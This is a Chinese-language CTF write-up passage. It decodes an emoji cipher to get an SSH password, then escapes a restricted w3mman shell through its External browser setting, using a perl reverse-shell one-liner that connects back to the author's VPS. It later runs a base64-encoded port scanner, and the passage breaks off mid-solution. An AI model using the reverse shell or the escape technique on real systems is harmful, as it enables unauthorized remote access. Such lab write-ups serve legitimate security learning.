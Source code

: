 上面那个网址就是虎符misc中的emoji替代加密，密钥是`suika`，他是一种替代加密，去网址得到字典后脚本替代得到ssh密码：`C0dEmOj!so4UnNy`

```
a = '🌷👱🌠🌴👷🎆🍀👼🎉🍇👰🎍🍋💁🎑🍏🚶🎁🍓💑🏀🍄💪🎳🍗👆😶🚘🐀😮🚜🐻😴⚓🐔😝🚢🐥😕🚟🐊😞🚥🐉😭🚽🐟😩⌛🐚😳☀😜😀🚆🐈😄🚊🐴😊🚌🐾🐂🐪🚏🐗😚🌹🚓🐁😑🚗👩😥'
b = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890!@#$%^&amp;*()_+'
ss = '🐀🐾🌴🚜🍋🐊🍇🐂🍓🎑🐈🐟💁🚟🍗'
print(ss.translate(str.maketrans(a,b)))
```

登录上去后是一个留言板加上一个自带的man flag指令，但是你不能退出man，退出man的话就直接退出了ssh，但是这个man又不是一般的man，他是w3mman，然后上面的`External Program Settings`中的`External browser`可以命令执行（这相当于是默认启动项，可以插入指令让它执行），使用perl来反弹shell，于是构建（网上百度）得`perl -e 'use Socket;$i="ip addr";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))`{`open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");`}`;'`，将shell反弹到VPS上，然后开始疯狂查看文件以及权限，得到`f1a9.py`为700权限，hint又说不用提权，然后看见run.sh里

```
#!/bin/sh
echo "ctf:C0dEmOj!so4UnNy" | chpasswd
chown -R root:ctf /home/ctf/
chmod 700 /home/ctf/f1a9.py
chmod 750 /home/ctf/msh
/home/ctf/f1a9.py &amp;

/usr/sbin/sshd -D
```

可以看到f1a9.py在启动是就在后台运行了，但是。。。我ps怎么弄，进入`/proc`读内存都没找到有用信息，但是官方突然给hint：`f1a9.py的独白：我的真实身份是web server`,于是恶向胆边生，俺爆破你端口，但是又因为服务器里没有nmap等可以三句话代码，使用python写进去一句话的扫描端口脚本

原码：

```
import requests
host = ' http://127.0.0.1'
for i in range(2000,2500):
    add = host+':'+str(i)
    try:
        s = requests.get(add)
        print(i)
        print(s.text)
        exit(1)
    except:
        print(i)
        pass
```

一句话脚本：

```
echo aW1wb3J0IHJlcXVlc3RzCmhvc3QgPSAnIGh0dHA6Ly8xMjcuMC4wLjEnCmZvciBpIGluIHJhbmdlKDIwMDAsMjUwMCk6CiAgICBhZGQgPSBob3N0Kyc6JytzdHIoaSkKICAgIHRyeToKICAgICAgICBzID0gcmVxdWVzdHMuZ2V0KGFkZCkKICAgICAgICBwcmludChpKQogICAgICAgIHByaW50KHMudGV4dCkKICAgICAgICBleGl0KDEpCiAgICBleGNlcHQ6CiAgICAgICAgcHJpbnQoaSkKICAgICAgICBwYXNzCg== | base64 -d | python3
```

得到了2333端口有网页，其内容为一堆base64编码：
